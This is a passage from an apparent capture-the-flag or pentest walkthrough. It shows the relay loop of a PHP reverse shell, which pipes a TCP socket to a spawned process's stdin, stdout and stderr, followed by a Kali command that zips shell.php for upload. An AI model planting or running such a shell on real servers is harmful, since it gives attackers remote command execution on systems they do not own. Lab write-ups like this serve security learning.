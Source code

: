 ```python
            $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
             // If we can read from the TCP socket, send
            // data to process's STDIN
             if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
            }
             // If we can read from the process's STDOUT
            // send data down tcp connection
             if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
            }
             // If we can read from the process's STDERR
            // send data down tcp connection
             if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
            }
        }
        fclose($sock);
        fclose($pipes[0]);
        fclose($pipes[1]);
        fclose($pipes[2]);
        proc_close($process);
        // Like print, but does nothing if we've daemonised ourself
        // (I can't figure out how to redirect STDOUT like a proper daemon)
         function printit ($string) {
            if (!$daemon) {
                print "$string\n";
            }
        }
        ?>"
```

But before we need to zip the shell.php to upload it.

```bash
kali@kali:~/Desktop$ zip shell.zip shell.php
adding: shell.php (deflated 59%)
```

